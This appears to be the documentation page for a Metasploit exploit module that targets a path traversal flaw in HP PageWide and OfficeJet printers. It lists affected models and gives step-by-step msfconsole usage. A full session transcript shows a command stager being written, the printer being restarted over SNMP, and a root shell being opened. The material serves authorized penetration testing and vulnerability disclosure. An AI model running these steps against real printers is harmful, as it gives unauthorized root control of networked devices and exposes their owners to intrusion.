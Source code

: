 ## Vulnerable Devices

  Impacted printers have a firmware version below 1708D.

  Product Name                             | Model
  ---------------------------------------- | -------------------------------
  HP PageWide Managed MFP P57750dw         | J9V82A, J9V82B, J9V82C, J9V82D
  HP PageWide Managed P55250dw             | J6U55A, J6U55B, J6U55C, J6U55D
  HP PageWide Pro MFP 577z                 | K9Z76A, K9Z76D
  HP PageWide Pro 552dw                    | D3Q17A, D3Q17C, D3Q17D
  HP PageWide Pro MFP 577dw                | D3Q21A, D3Q21C, D3Q21D
  HP PageWide Pro MFP 477dw                | D3Q20A, D3Q20B, D3Q20C, D3Q20D
  HP PageWide Pro  452dw                   | D3Q16A, D3Q16B, D3Q16C, D3Q16D
  HP PageWide Pro MFP 477dn                | D3Q19A, D3Q19D
  HP PageWide Pro  452dn                   | D3Q15A, D3Q15B, D3Q15D
  HP PageWide MFP 377dw                    | J9V80A, J9V80B
  HP PageWide 352dw                        | J6U57B
  HP OfficeJet Pro 8730 All-in-One Printer | D9L20A
  HP OfficeJet Pro 8740 All-in-One Printer | D9L21A
  HP OfficeJet Pro 8210 Printer            | D9L63A, D9L64A
  HP OfficeJet Pro 8216 Printer            | T0G70A
  HP OfficeJet Pro 8218 Printer            | J3P68A

## Verification Steps

  1. Start msfconsole
  2. Do: `use exploit/linux/misc/hp_jetdirect_path_traversal`
  3. Do: `set rhost <hostname>`
  4. Do: `exploit`
  5. You should get a shell.

## Scenarios

### HP OfficeJet Pro 8210 Printer

  The following demonstrates the exploit against a vulnerable printer model.
  When the user is finished with the command shell session, they press control-c and
  respond yes to abort the session. This action sends the `CommandShellCleanupCommand`
  of the `cmd/unix/bind_busybox_telnetd` payload to the server in order to kill
  telnetd that was used to get the command shell.

  ```
  msf > use exploit/linux/misc/hp_jetdirect_path_traversal
  msf exploit(linux/misc/hp_jetdirect_path_traversal) > set rhost 192.168.1.107
  rhost => 192.168.1.107
  msf exploit(linux/misc/hp_jetdirect_path_traversal) > exploit

  [*] 192.168.1.107:9100 - Exploiting...
  [*] Started bind handler
  [*] 192.168.1.107:9100 - Connecting to port 9100...
  [*] 192.168.1.107:9100 - Attempting to write command stager...
  [+] 192.168.1.107:9100 - Successfully wrote command stager to 0:/../../rw/var/etc/profile.d/dLDZtDsh.sh
  [*] 192.168.1.107:161 - Connecting to SNMP port 161...
  [*] 192.168.1.107:161 - Initial value of prtGeneralReset OID 1.3.6.1.2.1.43.5.1.1.3.1 => 3
  [*] 192.168.1.107:161 - Attempting to restart printer via SNMP...
  [*] 192.168.1.107:161 - Set prtGeneralReset OID 1.3.6.1.2.1.43.5.1.1.3.1 => 4
  [*] 192.168.1.107:161 - Current value of prtGeneralReset OID 1.3.6.1.2.1.43.5.1.1.3.1 => 3
  [*] 192.168.1.107:161 - Printer restarting...
  [*] Command shell session 1 opened (192.168.1.101:38141 -> 192.168.1.107:4444) at 2017-12-31 21:09:40 -0600


  [root@HPC2A3FB ]# id
  id
  uid=0(root) gid=0(root)
  [root@HPC2A3FB ]# uname -a
  uname -a
  Linux HPC2A3FB 3.14.32 #001.1614A Wed Mar 30 16:58:30 PDT 2016 armv7l GNU/Linux
  [root@HPC2A3FB ]# ^C
  Abort session 1? [y/N]  y

  [*] 192.168.1.107 - Command shell session 1 closed.  Reason: User exit
  msf exploit(linux/misc/hp_jetdirect_path_traversal) > 
  ```
